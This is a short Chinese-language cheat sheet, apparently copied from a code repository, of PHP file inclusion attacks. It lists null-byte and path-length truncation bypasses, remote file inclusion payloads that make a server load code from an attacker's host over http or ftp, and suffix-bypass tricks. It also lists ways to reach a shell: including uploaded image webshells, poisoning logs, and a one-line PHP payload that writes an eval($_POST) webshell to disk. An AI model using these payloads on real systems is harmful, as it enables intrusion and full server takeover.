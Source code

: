 ``` 
#有限制本地文件包含漏洞绕过
1. %00截断
    条件：
    	1 magic_quotes_gpc=Off
    	2 php版本<5.3.4  q
    payload:
    	?action=phpinfo.php%00
2. 操作系统特性，路径长度截断
    条件:
    	1 Windows下长度长于256字节，超出的部分会被丢弃(或者使用店号截断········)
    payload:?action=a.php./ * 256
    payload:?action=a.php· * 256
    	2 Linux下要长度长于4096字节，超出的部分会被丢弃
    pauload:payload:?action=a.php./ * 4096
    	
```

```
#远程文件包含漏洞 Reload File Include
指的是能够包含远程服务器上的文件并执行，可以通过http(s)或者ftp等方式，远程加载文件
危害：
	由于远程服务器文件可控，此漏洞危害性很大
条件：
	allow_url_include = On （默认关闭Off）
	allow_url_fopen = On
	用户可以动态控制变量
payload:
	?path=http://ip/info.php
	?path=ftp://用户名:密码@ip/info.php
```

```
#远程文件限制包含绕过
文件包含添加后缀
远程文件创建文件名称为不含后缀的文件

?绕过 将  服务器添加的后缀作为参数
$file = $file . 'php';
?file = http://url/a.php?.php


#号绕过(#号作为定位符) %23
空格绕过 %0a %20  PHP版本


```

``` 
#文件包含漏洞的利用
1 端口探测
	url=dict://ip:80
2 包含上传的getshell
	上传图片马，利用文件包图片马
3 包含日志文件getshell
	避免在web进行url编码，进行报错，将报错信息写入日志
	使用bp修改包内容或者curl绕过url编码
4 远程文件包含写shell
	<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>')
5 使用PHP伪协议getshell
```
